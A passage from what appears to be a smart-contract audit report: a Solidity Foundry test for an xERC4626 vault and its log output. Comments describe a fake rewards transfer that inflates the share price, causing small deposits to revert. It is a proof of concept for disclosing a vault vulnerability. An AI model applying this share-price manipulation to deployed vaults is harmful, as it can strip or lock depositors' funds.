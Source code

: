             // totalSupply() still 1. So current share price is ~ 1e18 token instead of 1:1 for token.
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 1e18  ", xToken.deposit(1e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            // After new cycle come around. No rewards have been given.
            // But TotalAsset() have been updated to include fake rewards transfer above.
            // this push share price even higher than it should be.
            emit log_string("fast forward 1 hour to new rewards cycle");
            hevm.warp(3601); // new cycle
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 2e18  ", xToken.deposit(2e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 500e18", xToken.deposit(500e18, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            // xToken.syncRewards();
            // hevm.warp(7202); // new cycle
            // Test rounding up value of share
            emit log_named_uint("deposit 1.3e17", xToken.deposit(1.3e17, address(this)));
            emit log_named_uint("deposit 1.9e17", xToken.deposit(1.9e17, address(this)));
            emit log_named_uint("deposit 2e17  ", xToken.deposit(2e17, address(this)));
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
            emit log_named_uint("deposit 2.5e17", xToken.deposit(2.5e17, address(this)));
            // token too small will be reverted.
            hevm.expectRevert(abi.encodePacked("ZERO_SHARES"));
            xToken.deposit(1e17, address(this));
            emit log_string("deposit token less than share price amount will be reverted with zero share error");
    
            emit log_string("fast forward 1 hour to new rewards cycle");
            xToken.syncRewards();
            hevm.warp(7610); // new cycle
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
    
            emit log_string("fast forward 1 hour to new rewards cycle");
            xToken.syncRewards();
            hevm.warp(7610+3601); // new cycle
            emit log_named_uint("share price   ", xToken.convertToAssets(1));
        }

Log Result:

    Running 2 tests for src\test\xERC4626.t.sol:xERC4626Test
    [PASS] testExploitNormalCase() (gas: 286966)
    Logs:
      share price   : 1
      deposit 1e18  : 1000000000000000000
      share price   : 1
      deposit 500e18: 500000000000000000000
      share price   : 1
      deposit 500e18: 500000000000000000000
      share price   : 1
      fast forward 1 hour to new rewards cycle
      deposit 2e18  : 2000000000000000000
      share price   : 1
      deposit 500e18: 500000000000000000000
      share price   : 1
    